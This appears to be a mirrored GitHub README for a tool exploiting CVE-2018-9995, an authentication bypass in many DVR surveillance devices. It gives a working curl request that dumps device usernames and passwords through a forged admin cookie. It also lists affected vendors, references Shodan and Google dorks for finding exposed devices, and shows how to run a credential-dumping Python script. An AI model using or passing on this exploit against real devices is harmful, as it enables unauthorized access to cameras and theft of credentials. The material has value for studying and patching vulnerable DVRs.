 # CVE-2018-9995_dvr_credentials

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/IHA114](https://github.com/IHA114) |
| Url      | [https://github.com/IHA114/CVE-2018-9995_dvr_credentials](https://github.com/IHA114/CVE-2018-9995_dvr_credentials)                                               |
| Stars    | 1                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

#  [Tool] show DVR Credentiales

	[*] Exploit Title:       "Gets DVR Credentials" 
	[*] CVE:                 CVE-2018-9995
	[*] CVSS Base Score v3:  7.3 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
	[*] Date:                09/04/2018
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	
![DVR_wall](screenshot/videoWall.jpg) 

### Exploit:

```
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

```
## tested in DVR (banner/vendor ?):
	Novo
	CeNova
	QSee
	Pulnix
	XVR 5 in 1 (title: "XVR Login")
	Securus,  - Security. Never Compromise !! - 
	Night OWL
	DVR Login
	HVR Login
	MDVR Login

# On the Wild:
![DVR_dorks_2](screenshot/cow/shodan_1.png) ![DVR_dorks_1](screenshot/cow/google_1.png) 
![DVR_dorks_3](screenshot/cow/shodan_2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/loginFront/login_1.png)
![DVR_login_2](screenshot/loginFront/login_2.png)
![DVR_login_3](screenshot/loginFront/login_3.png)
![DVR_login_4](screenshot/loginFront/login_4.png)
![DVR_login_5](screenshot/loginFront/login_5.png)
![DVR_login_6](screenshot/loginFront/login_6.png)
![DVR_login_7](screenshot/loginFront/login_7.png)
![DVR_login_8](screenshot/loginFront/login_9.png)
![DVR_login_10](screenshot/loginFront/login_10.png)

## Indoor:
![DVR_indoor_1](screenshot/indoor/in_x.png)
![DVR_indoor_2](screenshot/indoor/in_x1.png)
![DVR_indoor_3](screenshot/indoor/in_1.png)
![DVR_indoor_4](screenshot/indoor/in_2.png)
![DVR_indoor_5](screenshot/indoor/in_3.png)
![DVR_indoor_6](screenshot/indoor/in_4.png)
![DVR_indoor_7](screenshot/indoor/in_5.png)


# TOOL: "Show all DVR Credentials"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/CVE-2018-9995_dvr_credentials.git
	usr@pwn:~$ cd CVE-2018-9995_dvr_credentials
	usr@pwn:~$ pip install -r requirements.txt

## help

	usage: getDVR_Credentials.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining Exposed credentials

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python getDVR_Credentials.py --host 192.168.1.101 -p 81


## Pocs (Output) :
![DVR_poc_4](screenshot/toolOutput/poc_4.png)
![DVR_poc_3](screenshot/toolOutput/poc_3.png)
![DVR_poc_2](screenshot/toolOutput/poc_2.png)
![DVR_poc_1](screenshot/toolOutput/poc_1.png)



### Blog:
http://misteralfa-hack.blogspot.cl/2018/04/update-dvr-login-bypass-cve-2018-9995.html


I see you... ! xd


## Get the content

```
git clone https://github.com/IHA114/CVE-2018-9995_dvr_credentials
cd CVE-2018-9995_dvr_credentials
```

{% embed url="https://github.com/IHA114/CVE-2018-9995_dvr_credentials" %}

<figure><img src="https://avatars.githubusercontent.com/u/591104?v=4" alt=""><figcaption><p>IHA114</p></figcaption></figure>
